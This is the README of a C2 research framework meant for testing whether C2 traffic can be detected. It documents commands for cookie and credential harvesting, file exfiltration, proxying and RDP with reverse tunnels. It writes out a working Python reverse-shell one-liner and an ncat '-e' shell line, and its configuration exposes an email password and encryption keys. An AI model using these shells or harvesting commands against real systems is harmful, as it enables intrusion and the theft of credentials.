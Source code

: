 # TheAllCommander
Framework for modeling and researching C2 communications for developing efficient filtering and detection logic.

# Why TheAllCommander?
TheAllCommander allows researchers to easily develop their own communication modules and connect them to this framework, then leverage the existing framework to test elements of the Red Team workflow through the communication protocol for further study. 
## What TheAllCommander is...
A flexible framework for studying, modeling, and testing new C2 communication protocols.
A portable framework for executing tests of an environments ability to detect non-nominal C2 traffic.  
## What TheAllCommander is not...
TheAllCommander does not natively sling exploits - this is not trying to be Metasploit.
TheAllCommander does not provide malware agents for use in an engagement - this is not trying to be Cobalt Strike. 

# Concept of Operations
The central server, TheAllCommander, receives incoming connections on a variety of communications protocols. Current, it supports HTTP, HTTPS, Email, text over TCP, and UDP (DNS traffic emulation). This allows for a single server to control local daemons over any of those protocols. TheAllCommander can be controlled from either a LocalConnection terminal based interface or TheAllCommanderFE, an Angular application developed to allow a GUI for inputing commands. All commands, listed below, are translated by TheAllCommander into a platform specific format if needed, and then transmitted to the local daemon. 

Daemons are uniquely identified by the combination of user account, hostname, and protocol. Therefore multiple daemons can exist on a target system via different protocols, or via different user permission levels.

# Interfaces
There are several key classes which are described in detail in the Javadoc for this project.

At a high level, this is the user-implementable part of the workflow: To communicate with a remote agent/exploit/etc, TheAllCommander defines an abstract class c2.C2Interface. It also implements Runnable, where the programmer will implement whatever operations are necessary to initialize communications. Communiation with the rest of TheAllCommander is facilitated with the IOManager class, which is a thread safe vehicle passed to the C2 interface on initialization. The C2Interface instance can request commands relevant to connect clients from this class, as well as pass along return communications. TheAllCommander handles routing those communications to the controlling agent.

There is also an AbstractCommandMacro class which can accept commands and translate them to more complex instructions. For example, TheAllCommander comes with two macro sets out of the box. The first of these is the CookieDeletionMacro, which allows the user to simply state the command "delete_cookies". The CookieDeletionMacro will then decompose this instruction into a series of instructions that delete Firefox, Chrome, and Edge cookies for the current user session on the target system. There is also the "harvest_cookies" macro, which instructs the remote daemon to send Firefox, Chrome, and Edge cookies to TheAllCommander.

# Daemons
Currently, TheAllCommander has been tested with the following payloads:
1) Python. Currently TheAllCommander includes a HTTPS, UDP/DNS, and EMail emulation daemon. These daemons are in no way produced for operations in a real Red Team engagement, and are developed to serve as a template for further comm development. Both demonstrate use of these communication protocols in a comparable way.
2) Msfvenom unstaged tcp payloads (windows/x64/shell_reverse_tcp and linux/x86/shell_reverse_tcp)
3) "Python oneliner" ->  TheAllCommander can receive connections from python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.56.1\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call ([\"/bin/sh\",\"-i\"]);'
		Note: This has been tested with /bin/sh and the $ will be removed to normalize IO with a Linux ncat shell
4) ncat <ip> <port> -e cmd | /bin/bash -> works on both Linux and Windows
5) The author has developed C++ and C# payloads which are available only for limited release. Until a framework for public release can be developed, they will be held for release on an individually assessed basis.

# Commands
ps - List all running process
pwd - Print Working Directory
getuid - prints username, user directory, and hostname
uplink (filename) - returns a file from the remote host in base64. TheAllCommanderFE will automatically allow download of the file.
<control> download (filename) (base64 file binary) - downloads file to remote host. TheAllCommanderFE allows users to select a file from the GUI and it will be automatically transferred to the daemon.
cd (directory) - changes present directory
harvest - (C# only) - Uses the data gathering from Ghostpack-Seatbelt to pull valuable data
die - Local daemon closes
screenshot (No Linux support) - Captures a screenshot, and uploads to the HARVEST directory based on hostname\username\time-tagged-file
clipboard (No Linux support) - captures the clipboard contents and uploads the contents to the HARVEST directory based on hostname-pid-username folder
cat 
	cat (filename) - reads files
	cat >(filename) - writes to file, overwriting. each line entered builds a string, then committed to the file. <done> to close, <cancel> to cancel operation
	cat >>(filename) - same as ">", except appends to file
	cat (file) > (file2) - copies file to file2, overwriting content
	cat (file) >> (file2) - appends file to file2 
proxy <Remote IP> <port> <local port>
	This command binds a TCP listener to <local port> on the TheAllCommander's command server. The remote daemon will
	open a socket to host <Remote IP> at <port>, and will function as a TCP proxy. This mode is currently supported for 
	HTTP, DNS, and email clients.
killproxy <Remote IP> <port>
	Terminates the associated proxy on the server and client
confirm_client_proxy <ip>:<port>
	Responds with "yes" or "no" depending on if a proxy is running on the daemon 	

## Server based macro commands
The following commands are implemented serverside, where the server translates the instructions into
commands for the daemon.
delete_cookies -> deletes cookies for Firefox, Edge (Chromium version), and Chrome on Windows	
harvest_cookies -> takes copies of cookies for Firefox, Edge (Chromium) and Chrome on Windows. Takes a copy of Firefox credential files
activate_rdp <username> -> sets up Remote Desktop access on windows platforms, as well as a chisel reverse tunnel to the server
	Only supported by C++ daemons at present.

# Default Commands
Sometimes it is desireable for daemons to automatically execute commands without human interaction on connecting for the first time with the home server. The configuration file element "hub.cmd.defaults" can be used to specify a file that contains commands to be sent automatically. There are several tags, and an example is included the "test" directory.
:all -> Applies to all daemons connecting
:user-<username> -> Applies to all users matching this username. For example, all Administrator sessions might wish to execute higher level persistence establishment
:hostname-<hostname> -> Applies to all daemons on a host. Useful if there is some steps necessary to enable commanding on a particular

# Configuration
The execCentral.bar script provides a properties file. Most of the values in this properties file do not need to be changed, however they all the user an enormous level of freedom to modify many elements of TheAllCommander's function. Key configuration elements are listed below:
daemon.port=8000 				HTTPS port
daemon.dns.port=8001			DNS/UDP emulation port
daemon.http.port=8002			HTTP port
daemon.nativeshell.port=8003	Port for text over TCP port. A single receiver is used for all text over TCP, 
								TheAllCommander dynamically detects what response is needed
daemon.lz.logger=test			This is the location the keylogger information is sent to
daemon.lz.exfil=exfil			This directory is used for wide net data exfiltration
daemon.lz.harvest=test			Harvested information, such as clipboard shots, are saved here

The following configuration elements are used to connect to an email server to send commands and receive responses
daemon.email.port=587			
daemon.email.host=mail.matthandy.net
daemon.email.username=testC2@matthandy.net
daemon.email.password=haxor#12345

When TheAllCommander sends multiple commands automatically behind the scenes to accomplish a function, it will detect error conditions at each step of this process. This is the maximum time in milliseconds that it will wait for an affirmative response. Depending on the communication mechanism used, a greater than default value might be needed
daemon.maxresponsewait=15000

The following two parameters are used to configure how often TheAllCommander checks for new text over a socket and should not need to be changed. 
daemon.responserepollinterval=500
daemon.textovertcpstaticwait=500

The "commservices" parameter accepts a comma separated list of fully qualified class names for classes that extend the abstract class c2.C2Interface. This allows the software to dynamically load any arbitrary communication protocol the user wishes to implement and supply to the framework. 
commservices=c2.http.HTTPSManager,c2.udp.DNSEndpointEmulator,c2.smtp.EmailHandler,c2.tcp.GenericTCPInitiator
The "macros" parameter accepts a comma separated list of fully qualified class names for classes that extend the AbstractCommandMacro class, which allows users to define their own complex single line commands, which TheAllCommander can the translate into discrete commands. 
macros=c2.session.macro.CookieDeletionMacro,c2.session.macro.CookieHarvesterMacro

The following configuration elements are used to toggle the use of encrypting the payload for DNS/UDP emulated traffic
wire.encrypt.toggle=true
wire.encrypt.iv=AQIDBAUGBgUEAwIBBwcHBw==
wire.encrypt.key=AQIDBAUGBwgJCgsMDQ4PEA==

# Building
TBD